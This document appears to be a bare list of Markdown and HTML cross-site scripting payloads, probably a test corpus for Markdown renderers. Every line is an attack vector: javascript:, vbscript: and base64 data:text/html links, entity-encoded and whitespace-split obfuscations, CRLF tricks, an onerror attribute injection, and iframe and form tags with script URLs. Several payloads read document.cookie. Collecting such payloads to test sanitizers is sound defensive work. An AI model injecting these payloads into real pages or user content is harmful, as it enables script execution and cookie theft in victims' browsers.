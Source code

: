 [totallyharmlesslink](javascript:window.onerror=alert;throw%201)

[clickme](data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pgo=)



[a](javascript:prompt(document.cookie))

[a](j    a   v   a   s   c   r   i   p   t:prompt(document.cookie))

![a](javascript:prompt(document.cookie))\


![a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)

[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)

[a](&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29)

![a'"`onerror=prompt(document.cookie)](x)\

[citelol]: (javascript:prompt(document.cookie))

[notmalicious](javascript:window.onerror=alert;throw%20document.cookie)

[test](javascript://%0d%0aprompt(1))

[test](javascript://%0d%0aprompt(1);com)

[notmalicious](javascript:window.onerror=alert;throw%20document.cookie)

[notmalicious](javascript://%0d%0awindow.onerror=alert;throw%20document.cookie)

[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)

[clickme](vbscript:alert(document.domain))

[text](http://danlec.com " [@danlec](/danlec) ")

[a](javascript:this;alert(1))

[a](javascript:this;alert(1&#41;)

[a](javascript&#58this;alert(1&#41;)

[a](Javas&#99;ript:alert(1&#41;)

[a](Javas%26%2399;ript:alert(1&#41;)

[a](javascript:alert&#65534;(1&#41;)

[a](javascript:confirm(1)

[a](javascript://www.google.com%0Aprompt(1))

[a](javascript://%0d%0aconfirm(1);com)

[a](javascript:window.onerror=confirm;throw%201)

[a](javascript:alert(document.domain&#41;)

</http://<?php\><\h1\><script:script>confirm(2)


<a href="javascript:alert(/XSS/)">click</a>

<iframe src="javascript:alert(/XSS/)"></iframe>

<form action="javascript:alert(/XSS/)"></form>